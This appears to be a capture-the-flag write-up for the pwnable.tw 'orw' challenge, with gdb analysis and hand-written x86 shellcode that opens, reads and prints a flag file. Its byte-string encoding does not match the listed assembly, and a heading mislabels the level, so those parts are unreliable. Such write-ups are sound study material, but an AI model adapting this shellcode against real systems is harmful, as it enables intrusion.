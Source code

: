 ```yaml
---
layout: single_c
title:  "Pwnable.tw Level 2 - Orw"
date:   2019-08-14 1:00:16 +0530
categories: Pwnable.tw
tags: ctf
classes: wide
--- 
```

### [Pwnable.tw Level 1 - Start](https://pwnable.tw/challenge/#2)  

## Challenge
```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.

nc chall.pwnable.tw 10001
```
## Static Analysis
Lets check the file properties using `file` and `checksec`
```bash
user@ctf:~/Downloads$ file orw
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2,  
for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped

user@ctf:~/Downloads$ ./checksec.sh --file orw
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   orw
```
Let decompile using `gdb`
```bash
gdb-peda$ info functions 
All defined functions:

Non-debugging symbols:
0x08048330  _init
0x08048370  read@plt
0x08048380  printf@plt
0x08048390  __stack_chk_fail@plt
0x080483a0  __libc_start_main@plt
0x080483b0  prctl@plt
0x080483d0  _start
0x08048400  __x86.get_pc_thunk.bx
0x08048410  deregister_tm_clones
0x08048440  register_tm_clones
0x08048480  __do_global_dtors_aux
0x080484a0  frame_dummy
0x080484cb  orw_seccomp
0x08048548  main
0x080485a0  __libc_csu_init
0x08048600  __libc_csu_fini
0x08048604  _fini
```
Lets look at main function
```bash
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x08048548 <+0>:	lea    ecx,[esp+0x4]
   0x0804854c <+4>:	and    esp,0xfffffff0
   0x0804854f <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048552 <+10>:	push   ebp
   0x08048553 <+11>:	mov    ebp,esp
   0x08048555 <+13>:	push   ecx
   0x08048556 <+14>:	sub    esp,0x4
   0x08048559 <+17>:	call   0x80484cb <orw_seccomp>
   0x0804855e <+22>:	sub    esp,0xc
   0x08048561 <+25>:	push   0x80486a0
   0x08048566 <+30>:	call   0x8048380 <printf@plt>
   0x0804856b <+35>:	add    esp,0x10
   0x0804856e <+38>:	sub    esp,0x4
   0x08048571 <+41>:	push   0xc8
   0x08048576 <+46>:	push   0x804a060
   0x0804857b <+51>:	push   0x0
   0x0804857d <+53>:	call   0x8048370 <read@plt>
   0x08048582 <+58>:	add    esp,0x10
   0x08048585 <+61>:	mov    eax,0x804a060
   0x0804858a <+66>:	call   eax
   0x0804858c <+68>:	mov    eax,0x0
   0x08048591 <+73>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048594 <+76>:	leave  
   0x08048595 <+77>:	lea    esp,[ecx-0x4]
   0x08048598 <+80>:	ret    
End of assembler dump.
```

At position `0x08048576` the value `0x804a060` is pushed into the `stack` and then value read from the user is stored at this location and then it is called.

lets set a break point and check 
```bash
gdb-peda$ break *0x0804858a
Breakpoint 1, 0x0804858a in main ()
gdb-peda$ x/2i $eip
=> 0x804858a <main+66>:	call   eax
   0x804858c <main+68>:	mov    eax,0x0
gdb-peda$ print $eax
$1 = 0x804a060
gdb-peda$ x/s $eax
0x804a060 <shellcode>:	"AAAABBBB\n" 
```
So it executes any shellcode we input. So we can simply write any shell code.
Its seems to be too easy and I don't see any limits to the length of shell code either  
My first thought was to pop a shell. But syscalls seems to be limited to `open` `read` and `write`
After trying various unnecessarily complicated shellcodes I got a simple idea  
We can just `open` the flag file then `read` from it and then `write` its contents to standard output  

I used this website for writing the shell code https://defuse.ca/online-x86-assembler.htm

Shell code
```bash
mov eax,5
push 0
push 0x67616c66
push 0x2f2f2f77
push 0x726f2f65
push 0x6d6f682f
mov ebx,esp
xor ecx,ecx
xor edx,edx
int 0x80;; fd = open("/home/orw/flag", 0_RDONLY, 0)

push eax
pop ebx
mov eax,3
mov ecx,0x0804a060
sub ecx,40
mov edx,40
int 0x80;; read(fd, obj.shellcode-40, 40)

mov eax,4
mov ebx,1
mov ecx,0x0804a060
sub ecx,40
mov edx,40
int 0x80;; write(stdout, obj.shellcode-40, 40)


String Literal:

"\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x77\x2F\x2F\x2F\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3  
\x31\xC9\x31\xD2\xCD\x80\x50\x5B\xB8\x03\x00\x00\x00\xB9\x60\xA0\x04\x08\x81\xC1\xA0\x00\x00\x00\xBA\x28\x00\x00\x00  
\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x60\xA0\x04\x08\x81\xC1\xA0\x00\x00\x00\xBA\x28\x00\x00\x00\xCD\x80"  

```
The shellcode is the simplest one I could think of. Its not the most efficient or shortest method but it will work    
The shellcode first `opens` the file `/home/orw/flag`  
Then it `reads` from the file using the file `descriptor` returned form `open` to a `40bytes` buffer above shell code  
Then we `write` the output to standard output
